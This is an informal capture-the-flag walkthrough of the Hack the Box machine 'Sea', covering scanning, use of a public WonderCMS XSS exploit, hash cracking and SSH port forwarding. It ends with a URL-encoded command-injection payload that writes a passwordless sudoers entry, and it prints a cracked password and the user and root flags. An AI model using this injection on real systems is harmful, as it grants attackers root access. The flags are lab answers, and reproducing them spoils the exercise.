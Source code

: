 ```yaml
---
title: Sea - Hack the Box
date: 2024-10-13 12:37:45 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Sea.png
---
```

### Scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Sea - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### Enum
80 - Apache 2.4.41
	Contact.php potential?
	Very thorough with dir enum. README.enum
	WonderCMS Bike Theme 3.2.0 - XSS https://github.com/insomnia-jacob/CVE-2023-41425.git
	Validate main index login
	break down how works
	Once done, use exploit
	
### Initial Access
stable shell
root around www data and dump js database
we get hash. for whatever the fuck reason, remove backslashes and crack with john.
login to amay ssh with password `mychemicalromance`
USER:59988bcea1fb845cc8c4eac8acd962cb


serve linpeas cuz all the shit gotdamn locked

### Privilege Escalation
netstat and/or linpeas
make note of 8080, or http-alt. must be web service
port forward `ssh -v -N -L 8888:localhost:8080 amay@sea.htb`
login with same creds
proxy thru burp to play with file analysis tool. Information leak here
Command Injection![Image](/assets/Screenshot 2024-10-08 at 11.17.26 AM.png)
Lets give our user root priv `/etc/passwd+%26%26+echo+"amay+ALL=(ALL)+NOPASSWD:+ALL"+>+/etc/sudoers.d/amay+#`
success![Image](/assets/Screenshot 2024-10-08 at 11.19.23 AM.png)
sudo -i to upgrade shell!
Root:62abbfcbb2ade98a7e550bdaf9b839c5
